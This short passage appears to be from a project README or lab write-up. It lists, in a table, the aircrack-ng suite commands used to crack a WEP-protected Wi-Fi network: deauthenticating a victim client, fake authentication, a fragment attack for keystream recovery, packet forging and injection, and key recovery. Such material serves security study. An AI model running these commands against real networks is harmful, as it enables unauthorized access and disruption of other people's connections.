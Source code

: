 <br>

Here is a list of the commands we used:

|Step|Command|
|-|-|
|Identify interface|`airmon-ng`|
|Kill conflicting processes|`airmon-ng check kill`|
|Start monitoring on channel|`airmon-ng start wlan0 -c <channel-number>`|
|Capture traffic on network|`airodump-ng -c <channel-number> --bssid <AP-MAC> -w <Filename> wlan0mon`|
|Deauthenticate client|`aireplay-ng --deauth 1 -a <AP-MAC> -c <Victim-MAC> wlan0mon`|
|Fake authentication|`aireplay-ng --fakeauth 0 -e <ESSID> wlan0mon`|
|Associate to network every 60 sec|`aireplay-ng --fakeauth 0 -e <ESSID> -b <AP-MAC> -h <Own-MAC> wlan0mon`|
|Associate every 60 sec using PRGA|`aireplay-ng -1 60 -e <ESSID> -y <PRGA file> -a <AP-MAC> -h <Own-MAC> wlan0mon`|
|Get keystream with fragment attack|`aireplay-ng --fragment -b <AP-MAC> -h <Own-MAC> wlan0mon`|
|Inject captured packets|`aireplay-ng --interactive -b <AP-MAC> -d <Broadcast-MAC> -f 1 -m 68 -n 86 wlan0mon`|
|Build a packet|`packetforge-ng -0 -a <AP-MAC> -h <Own-MAC> -l 192.168.0.111 -k 192.168.0.255 -y fragment-1231-151520.xor -w inject.cap`|
|Inject built packets|`aireplay-ng --interactive -r inject.cap wlan0mon`|
|Crack WEP key|`aircrack-ng <capture-file>`|
